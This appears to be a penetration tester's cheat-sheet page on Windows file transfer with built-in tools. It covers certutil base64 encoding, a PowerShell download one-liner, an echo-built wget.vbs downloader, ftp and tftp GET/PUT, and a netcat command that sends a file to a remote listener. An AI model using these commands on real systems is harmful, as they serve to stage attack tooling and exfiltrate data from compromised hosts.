 
## Windows General Utilities

* Nice reference: [Living Off the Land](https://github.com/api0cradle/LOLBAS/blob/master/LOLBins.md)

* Show Kali Windows binaries
``` sh
ls -lR /usr/share/windows-binaries/
```

* Base64 encode/decode
```bat
certutil -encode <infilename> <outfilename>
certutil -decode <infilename> <outfilename>
```

* File transfers
``` bat
:: http via powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('<url>','<destinationpath>')"

:: construct wget.vbs
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
cscript wget.vbs <url> <outfilename>

:: ftp interactive client; listen with Metasploit `auxiliary/server/ftp` module
ftp.exe <ip>

:: ftp non-interactive client (executes commands line-by-line from specified file)
:: specify `open <ip>` on first line of command file
ftp.exe -s:<filename>

:: tftp client; may need to manually enable on newer versions of Windows (listen with Metasploit `auxiliary/server/tftp`)
pkgmgr /iu:"TFTP"
tftp.exe -i <ip> GET <filename>
tftp.exe -i <ip> PUT <filename>

:: netcat; listen on receiving end with `nc -lvp <port> > <outfile>`
nc.exe -w 3 <ip> <port> < <infile>

```